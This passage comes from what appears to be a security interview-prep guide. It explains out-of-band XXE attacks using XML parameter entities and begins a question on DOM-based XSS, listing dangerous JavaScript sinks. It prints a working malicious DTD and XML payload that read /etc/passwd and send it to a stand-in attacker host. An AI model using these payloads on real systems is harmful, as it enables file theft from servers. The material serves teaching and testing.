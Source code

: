 XML parameter entities are used only within an external DTD, meaning that it's use for XXE injection is limited to only OOB attacks. Instead of `&`, which is used within general entities,  it uses `%`. Let's have an example of an OOB XXE attack via malicious DTD.

Our simple malicious DTD:

```xml
<!ENTITY % all "<!ENTITY send SYSTEM 'https://attacker.com/?data=%file;'>"> %all;
```

The payload used within the target domain : 
```xml
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE data [ 
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % dtd SYSTEM "http://attacker.com/malicious.dtd"> %dtd; ]> 

<id>1337</id>
<name>hackerman</name>
<leet>&send;</leet>
```

The XML parser will load our DTD via the `%dtd` **parameter entity**, after it uses our DTD, `%all` is creates general entity, called `&send;`, which points to attacker's domain. The URL contains parameter entity, called `%file`, which by the declaration in the request, is the local file `/etc/passwd`. It will send the local file to our domain, like this : `https://attacker.com?data=HERE`. The only thing we now need to do, is to URL decode the contents, and we are good to go.

## 19. What recommendations would you give a customer for fixing DOM based XSS?


**What is DOM-based XSS :** 
- XSS where the attack payload is executed as a result of modifying the DOM.
- It can be either stored or reflected.
- Can be exploited via jQuery as well.
- We exploit HTML sinks, list of some sinks that can lead to DOM-based XSS (they allow dynamic code execution)
```js
document.write()
window.location
document.cookie
eval()
document.domain
WebSocket()
element.src
postMessage()
setRequestHeader()
FileReader.readAsText()
ExecuteSql()
sessionStorage.setItem()
document.evaluate()
JSON.parse()
element.setAttribute()
RegExp()
```
